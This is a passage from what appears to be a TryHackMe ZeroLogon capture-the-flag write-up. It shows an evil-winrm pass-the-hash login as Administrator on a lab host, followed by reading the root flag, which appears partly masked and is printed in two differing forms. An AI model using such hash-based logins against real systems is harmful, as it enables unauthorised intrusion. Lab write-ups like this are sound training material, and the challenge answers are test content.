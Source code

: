 6. What is the root flag?

```
(impacketEnv) bibo318@parrot:~/CTFs/tryhackme/ZeroLogon$ evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.162.183

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
hololive\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/20/2020   2:02 PM             24 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
THM{V0N318*****Zer0Log0nD4rkTh1rty}
```

`THM{V0N318*****Zer0Log0nD4rkTh1rty12**123:))}`
